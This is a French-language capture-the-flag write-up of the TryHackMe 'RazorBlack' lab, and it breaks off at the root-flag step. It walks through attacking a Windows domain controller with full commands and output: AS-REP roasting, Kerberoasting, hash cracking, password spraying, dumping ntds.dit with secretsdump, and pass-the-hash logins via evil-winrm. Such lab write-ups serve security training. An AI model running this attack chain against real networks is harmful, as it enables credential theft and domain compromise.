


# RazorBlack #

## Task 1 Deploy The Box ##

## Task 2 Flag Submission Panel ##  

```nmap 
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.32.79 razorblack.thm' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A razorblack.thm -p- 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-28 10:23 CEST
Nmap scan report for razorblack.thm (10.10.32.79)
Host is up (0.033s latency).
Not shown: 65508 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-10-28 08:24:56Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  mountd        1-3 (RPC #100005)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RAZ0RBLACK
|   NetBIOS_Domain_Name: RAZ0RBLACK
|   NetBIOS_Computer_Name: HAVEN-DC
|   DNS_Domain_Name: raz0rblack.thm
|   DNS_Computer_Name: HAVEN-DC.raz0rblack.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2021-10-28T08:26:02+00:00
| ssl-cert: Subject: commonName=HAVEN-DC.raz0rblack.thm
| Not valid before: 2021-10-27T08:20:55
|_Not valid after:  2022-04-28T08:20:55
|_ssl-date: 2021-10-28T08:26:11+00:00; +1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/28%OT=53%CT=1%CU=35330%PV=Y%DS=2%DC=T%G=Y%TM=617A5E
OS:B9%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=I%CI=I%TS=U)SEQ(SP=
OS:105%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=U)OPS(O1=M506NW8NNS%O2=M506NW8N
OS:NS%O3=M506NW8%O4=M506NW8NNS%O5=M506NW8NNS%O6=M506NNS)WIN(W1=FFFF%W2=FFFF
OS:%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M506NW8NNS%C
OS:C=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A
OS:=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%D
OS:F=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: HAVEN-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-10-28T08:26:06
|_  start_date: N/A

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   32.99 ms 10.9.0.1
2   33.28 ms razorblack.thm (10.10.32.79)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 190.56 seconds

```

**What is the Domain Name?**

Nmap nous indique sur le port 3389 les noms de domaine disponible.  

```bash
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RAZ0RBLACK
|   NetBIOS_Domain_Name: RAZ0RBLACK
|   NetBIOS_Computer_Name: HAVEN-DC
|   DNS_Domain_Name: raz0rblack.thm
```

Le nom de domaine est : raz0rblack.thm  

**What is Steven's Flag?**

Sur le port 2049, il y un point de montage possible.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ showmount -e razorblack.thm 
Export list for razorblack.thm:
/users (everyone)
```

Le répertoire users peut être monté par n'importe qui.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ mkdir /tmp/users
tim@kali:~/Bureau/tryhackme/write-up$ mount razorblack.thm:/users /tmp/users
```

On monte le répertoire users dans /tmp/users.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cd /tmp/users/
tim@kali:~/Bureau/tryhackme/write-up$ sudo su
root@kali:/home/tim/Bureau/tryhackme/write-up# cd /tmp/users/
root@kali:/tmp/users# ls
employee_status.xlsx  sbradley.txt
root@kali:/tmp/users# cat sbradley.txt 
��THM{ab53e05c9a98def00314a14ccbfa8104}
```

Dans répertoire users, on trouve un fichier sbradley.txt qui contient un flag.   

Le flag est : THM{ab53e05c9a98def00314a14ccbfa8104}    

**What is the zip file's password?**

    

On voit une liste de noms.  
Qui sont : 
daven port
imogen royce
tamara vidal
arthur edwards
carl ingram
nolan cassidy
reza zaydan
ljudmila vetrova
rico delgado
tyson williams
steven bradley
chamber lin

dport
iroyce
tvidal
aedwards
cingram
ncassidy
rzaydan
lvetrova
rdelgado
twilliams
sbradley
clin

On remarque qu le noms steven badley a été encodé de la façon première lettre du prénom + nom.  
On fait de même avec les autres noms.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo  sh -c "echo '10.10.32.79 raz0rblack.thm' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ GetNPUsers.py -no-pass raz0rblack.thm/ -usersfile users.txt -format hashcat -outputfile hashes.txt
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User lvetrova doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User sbradley doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

tim@kali:~/Bureau/tryhackme/write-up$ cat hashes.txt 
$krb5asrep$23$twilliams@RAZ0RBLACK.THM:4047b0c5a12aba1fc8340c0717decab7$c90a98df83cba86266d158718fcf93cc9380ec62b09d083c8e93162153b05d213b5f98ae0ef08831db17cc53e4476db28cf74cb294d3c9637aae329d2e8a230c3c3dddb74837e00efab5671c382ccb429c6a145add7ebe92ec9cc07bc5486ce1ddb2d90421f6b972bdf16451f5d88adea7b2fff2edb66280885c898b6513497f209b3adc550c9ed5e7e1f8278093f44b8624aa1cf0ccf0a2ba7d4aa1e946c15f5a19b87ed803efb833c5c35ff759eaf22e3e2a763c25155fe47c2cc47ea6e353a611d4dea8e50a0f3a21999c1d227cee2ba0766fd0b76870c89581dd6ec7b3e9be1c8daa42b21302274e1f68c35d1657
```

On récupère le mot de passe sous de forme de hash on trouve celui de twilliams.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt --quiet
$krb5asrep$23$twilliams@RAZ0RBLACK.THM:4047b0c5a12aba1fc8340c0717decab7$c90a98df83cba86266d158718fcf93cc9380ec62b09d083c8e93162153b05d213b5f98ae0ef08831db17cc53e4476db28cf74cb294d3c9637aae329d2e8a230c3c3dddb74837e00efab5671c382ccb429c6a145add7ebe92ec9cc07bc5486ce1ddb2d90421f6b972bdf16451f5d88adea7b2fff2edb66280885c898b6513497f209b3adc550c9ed5e7e1f8278093f44b8624aa1cf0ccf0a2ba7d4aa1e946c15f5a19b87ed803efb833c5c35ff759eaf22e3e2a763c25155fe47c2cc47ea6e353a611d4dea8e50a0f3a21999c1d227cee2ba0766fd0b76870c89581dd6ec7b3e9be1c8daa42b21302274e1f68c35d1657:roastpotatoes
```

hashcat casse la hash, le mot de passe est : roastpotatoes   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbmap -H raz0rblack.thm -u twilliams -p roastpotatoes
[+] IP: raz0rblack.thm:445	Name: unknown                                           
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
	trash                                             	NO ACCESS	Files Pending for deletion

```
On peut le IPC$, NETLOGON et SYSVOL mais il y a rien d'interessant.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo 'roastpotatoes' > pass.txt
tim@kali:~/Bureau/tryhackme/write-up$ cat  users.txt 
dport
iroyce
tvidal
aedwards
cingram
ncassidy
rzaydan
lvetrova
rdelgado
sbradley
clin

tim@kali:~/Bureau/tryhackme/write-up$ crackmapexec smb razorblack.thm -u users.txt -p pass.txt 
SMB         10.10.78.91     445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
SMB         10.10.78.91     445    HAVEN-DC         [-] raz0rblack.thm\dport:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.78.91     445    HAVEN-DC         [-] raz0rblack.thm\iroyce:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.78.91     445    HAVEN-DC         [-] raz0rblack.thm\tvidal:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.78.91     445    HAVEN-DC         [-] raz0rblack.thm\aedwards:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.78.91     445    HAVEN-DC         [-] raz0rblack.thm\cingram:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.78.91     445    HAVEN-DC         [-] raz0rblack.thm\ncassidy:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.78.91     445    HAVEN-DC         [-] raz0rblack.thm\rzaydan:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.78.91     445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.78.91     445    HAVEN-DC         [-] raz0rblack.thm\rdelgado:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.78.91     445    HAVEN-DC         [-] raz0rblack.thm\sbradley:roastpotatoes STATUS_PASSWORD_MUST_CHANGE 
```

On met le mot de passe que l'on a trouvé précédemment. 
On supprime l'utilisateur twilliams dans la liste d'utilisateur.    
On regarde si le mot de passe n'a pas été utilisé par un autre utilisateur.  
On voit que le mot de passe de sbradley doit être changé.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbpasswd -r razorblack.thm -U sbradley
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user sbradley

tim@kali:~/Bureau/tryhackme/write-up$ smbmap -H razorblack.thm -u sbradley -p '123456789'
[+] IP: razorblack.thm:445	Name: unknown                                           
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
	trash                                             	READ ONLY	Files Pending for deletion
```

On change de mot de passe.  
On voit que l'on peut lire trash.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient //razorblack.thm/trash -U sbradley
Enter WORKGROUP\sbradley's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Mar 16 07:01:28 2021
  ..                                  D        0  Tue Mar 16 07:01:28 2021
  chat_log_20210222143423.txt         A     1340  Thu Feb 25 20:29:05 2021
  experiment_gone_wrong.zip           A 18927164  Tue Mar 16 07:02:20 2021
  sbradley.txt                        A       37  Sat Feb 27 20:24:21 2021

		5101823 blocks of size 4096. 946560 blocks available
smb: \> get chat_log_20210222143423.txt 
getting file \chat_log_20210222143423.txt of size 1340 as chat_log_20210222143423.txt (8,1 KiloBytes/sec) (average 8,1 KiloBytes/sec)
smb: \> get experiment_gone_wrong.zip 
getting file \experiment_gone_wrong.zip of size 18927164 as experiment_gone_wrong.zip (3571,7 KiloBytes/sec) (average 3463,5 KiloBytes/sec)
smb: \> get sbradley.txt 
getting file \sbradley.txt of size 37 as sbradley.txt (0,1 KiloBytes/sec) (average 3299,1 KiloBytes/sec)
smb: \> exit
```

On récupère trois fichiers.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat chat_log_20210222143423.txt 
sbradley> Hey Administrator our machine has the newly disclosed vulnerability for Windows Server 2019.
Administrator> What vulnerability??
sbradley> That new CVE-2020-1472 which is called ZeroLogon has released a new PoC.
Administrator> I have given you the last warning. If you exploit this on this Domain Controller as you did previously on our old Ubuntu server with dirtycow, I swear I will kill your WinRM-Access.
sbradley> Hey you won't believe what I am seeing.
Administrator> Now, don't say that you ran the exploit.
sbradley> Yeah, The exploit works great it needs nothing like credentials. Just give it IP and domain name and it resets the Administrator pass to an empty hash.
sbradley> I also used some tools to extract ntds. dit and SYSTEM.hive and transferred it into my box. I love running secretsdump.py on those files and dumped the hash.
Administrator> I am feeling like a new cron has been issued in my body named heart attack which will be executed within the next minute.
Administrator> But, Before I die I will kill your WinRM access..........
sbradley> I have made an encrypted zip containing the ntds.dit and the SYSTEM.hive and uploaded the zip inside the trash share.
sbradley> Hey Administrator are you there ...
sbradley> Administrator .....

The administrator died after this incident.

Press F to pay respects
```

Dans le fichier chat_log_20210222143423.txt 
Il y une discusion qui dit que le site est vulnérable à l'exploit CVE-2020-1472 Zero-logon.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ zip2john experiment_gone_wrong.zip > hash
ver 2.0 efh 5455 efh 7875 experiment_gone_wrong.zip/system.hive PKZIP Encr: 2b chk, TS_chk, cmplen=2941739, decmplen=16281600, crc=BDCCA7E2
ver 2.0 efh 5455 efh 7875 experiment_gone_wrong.zip/ntds.dit PKZIP Encr: 2b chk, TS_chk, cmplen=15985077, decmplen=58720256, crc=68037E87
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
tim@kali:~/Bureau/tryhackme/write-up$ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
electromagnetismo (experiment_gone_wrong.zip)
1g 0:00:00:00 DONE (2021-10-28 13:51) 1.639g/s 13738Kp/s 13738Kc/s 13738KC/s elephantmeee..elanore67
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

On a un fichier experiment_gone_wrong.zip qui est protégé par un mot de passe.
On casse le mot de passe avec john the ripper.   
Le mot de passe est : electromagnetismo  

**What is Ljudmila's Hash?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ unzip experiment_gone_wrong.zip 
Archive:  experiment_gone_wrong.zip
[experiment_gone_wrong.zip] system.hive password: 
  inflating: system.hive             
  inflating: ntds.dit         

tim@kali:~/Bureau/tryhackme/write-up$ python /opt/impacket/examples/secretsdump.py -system system.hive  -ntds ntds.dit LOCAL > hashes.txt
tim@kali:~/Bureau/tryhackme/write-up$ cat hashes.txt | cut -d ":" -f 4 > hashTest.txt 

Manuellement on efface les mauvaises lignes.   

tim@kali:~/Bureau/tryhackme/write-up$ crackmapexec smb 10.10.209.106 -u lvetrova -H hashTest.txt 
SMB         10.10.209.106   445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
SMB         10.10.209.106   445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:1afedc472d0fdfe07cd075d36804efd0 STATUS_LOGON_FAILURE 
SMB         10.10.209.106   445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE 
SMB         10.10.209.106   445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:4ea59b8f64c94ec66ddcfc4e6e5899f9 STATUS_LOGON_FAILURE 
----------
SMB         10.10.209.106   445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:081af9630677a387f6f0a9bb17852602 STATUS_LOGON_FAILURE 
SMB         10.10.209.106   445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:c184a72ed800899bc1ff633778a89b5e STATUS_LOGON_FAILURE 
SMB         10.10.209.106   445    HAVEN-DC         [+] raz0rblack.thm\lvetrova f220d3988deb3f516c73f40ee16c431d 
```

On extraits les hashs.  
On test les hash avec le nom lvtrova.  
On trouve le hash de Ljudmila : f220d3988deb3f516c73f40ee16c431d  

**What is Ljudmila's Flag?**  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ evil-winrm -i razorblack.thm -u lvetrova -H f220d3988deb3f516c73f40ee16c431d 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\lvetrova\Documents> cd ..
*Evil-WinRM* PS C:\Users\lvetrova> ls


    Directory: C:\Users\lvetrova


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/15/2018  12:19 AM                Desktop
d-r---        2/25/2021  10:14 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos
-a----        2/25/2021  10:16 AM           1692 lvetrova.xml

Evil-WinRM* PS C:\Users\lvetrova> cat lvetrova.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">Your Flag is here =&gt;</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000009db56a0543f441469fc81aadb02945d20000000002000000000003660000c000000010000000069a026f82c590fa867556fe4495ca870000000004800000a0000000100000003b5bf64299ad06afde3fc9d6efe72d35500000002828ad79f53f3f38ceb3d8a8c41179a54dc94cab7b17ba52d0b9fc62dfd4a205f2bba2688e8e67e5cbc6d6584496d107b4307469b95eb3fdfd855abe27334a5fe32a8b35a3a0b6424081e14dc387902414000000e6e36273726b3c093bbbb4e976392a874772576d</SS>
    </Props>
  </Obj>
</Objs>

*Evil-WinRM* PS C:\Users\lvetrova> $Credential = Import-Clixml -Path "lvetrova.xml"
*Evil-WinRM* PS C:\Users\lvetrova> $Credential.GetNetworkCredential().password
THM{694362e877adef0d85a92e6d17551fe4}
```

Avec le hash de lvetrova on se connecte à son compte.  
On trouve dans le répertoire lvetrova un fichier xml qui contient le flag mais chiffré.  
Avec power shell on le déchiffre.   

**What is Xyan1d3's password?**  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ GetUserSPNs.py raz0rblack.thm/lvetrova -hashes f220d3988deb3f516c73f40ee16c431d:f220d3988deb3f516c73f40ee16c431d -outputfile hashs2.txt
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName                   Name     MemberOf                                                    PasswordLastSet             LastLogon  Delegation 
-------------------------------------  -------  ----------------------------------------------------------  --------------------------  ---------  ----------
HAVEN-DC/xyan1d3.raz0rblack.thm:60111  xyan1d3  CN=Remote Management Users,CN=Builtin,DC=raz0rblack,DC=thm  2021-02-23 16:17:17.715160  <never>            

tim@kali:~/Bureau/tryhackme/write-up$ hashcat -m 13100 hashs2.txt /usr/share/wordlists/rockyou.txt --quiet
$krb5tgs$23$*xyan1d3$RAZ0RBLACK.THM$raz0rblack.thm/xyan1d3*$24008522a89b9e2fac7574fa20e58d6b$201dd4259fb4989e256f84e0669b2a3b45f6801f411861d04f214b4ad35c33490929ad4b58f48f30decb809ac861506f51b9ab02e7663999428f6f7aa0808392a048d8a670cfe3c2796f7a6ab89d1cd44077d761f389ef68cb2e9343acbe84e86ff8823f409803c118a170cb096780759cd1853ed4606549528d91c145a291514756615eb599ff5f82aa80a3f5434d0e7ae0a1a8e654b88547f35154f37825b9f452c1bb9a00c8207cf347ea40f52ecc4c696dc4a5e6927309276b175df4fdf2a1ffa8c3dfb365d1d8842222568ce61e7eb664216b3e2bc86892020303d8ce627eb71ed11a5e47110fe604d053e3abde27045293e36e2324e3235ebb7738e19c16ea560b1e0c964f550434fffc7c6659d03a1b09d124fb6dec5393a15eb9216bd5f3efc581d43df9c2bea05a1e0278a141c556775da968894b5204f9b30f772bccc1c6839c11677556c22f07705f6a64a1c8f0f53693bb46084cf4d009125b5179438e9d6dd597c54e1d78f9f851808ebd4b908c6faa2af305b4eb9a3b80d7d44013d0537d8b3cd38c202b44f5bb80618c7a92a370ccc4e21f439f7ea7cb1e9aed6d764d9b5ac3176bab7de9f99c4f0cc609a5b092f8652ce88f9d55ce5cb983b92812ae95e0ab2c976d97750bd773f530bd35fa0b60e834daed60bde0553ecdebb9a62de60e34a87c8b78826474787bdbca54be1bd2dea11a05563e8ca824bc4512392c9b66e154ce8ba676b1a31d0a2aa496e76017bdba384dbd8f134b3f64f1f8f42ab144f999f68dfa45d43e0da46b2358ca0ab81d36aaa604653cd2963e2b6cdfd8cde4842cc87bf072b2e490cd9a5a253a9f4641e6d42e2fa3c3a49b259f07673c0bd995648455c35cfa6ff3078fe2c80555c20b1f4e1f410b46eb958177c961106174328748e2be53037c2f7d7480a489927c56b8079b673fabe40b988771d8a1d5c47f03ea618f83b5a229e3f6648d823badf01cf3d32d495ec0d51bf37472ee99b520ad9e767bec6a038abf68f9bd550a331cc1972f088186c70521fbc678e54a2cba4a28af56947637e4edee66fb060a23a63458ab295475636446e7283f413bbea69e285b9e843eaba61954b9346f3dd8427d4839473ddd7fc0496ba59d91f2dd886583b85fd68925acfe7d63c59e761138084109f2e8a18be76212813208b35c542d0c55d20a3231531a7352cc8bf91bcf0cca72176b73fdb327c8b9bd9aac2129601b751e58871e9bcec7c3942b0024cec6c3e9b33103aaf7bc5b7276715f2ac02a3ff56c4a5e60bce24069da648be66f61c94e1eac47f2c0c845d960b716acd0e03659ea2853d23f8810135611b7af8b73cab695f3939daffdd3b28d25ad7d21901a660f3f0510782427ba92d424964cb89ec6af073dd7a74c40eaa6ace6ac1d48b7303c711f76ef:cyanide9amine5628
```

On utilise un attaque pash the hash on vole le hash d'un autre utilisateur sans le déchiffrer.  
On casse le hash avec hashcat et on touve le mot passe : cyanide9amine5628  

**What is Xyan1d3's Flag?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ evil-winrm -i raz0rblack.thm -u xyan1d3 -p cyanide9amine5628

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\xyan1d3> $Credential = Import-Clixml -Path "xyan1d3.xml"
*Evil-WinRM* PS C:\Users\xyan1d3> $Credential.GetNetworkCredential().password
LOL here it is -> THM{62ca7e0b901aa8f0b233cade0839b5bb}

```

On se connecte sur le copte de xyan1d3.
On fait le même procédure que lvetrova pour avoir le flag.   
Le flag est : THM{62ca7e0b901aa8f0b233cade0839b5bb} 

**What is the root Flag?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ evil-winrm -i raz0rblack.thm -u xyan1d3 -p cyanide9amine5628

Evil-WinRM shell v3.3

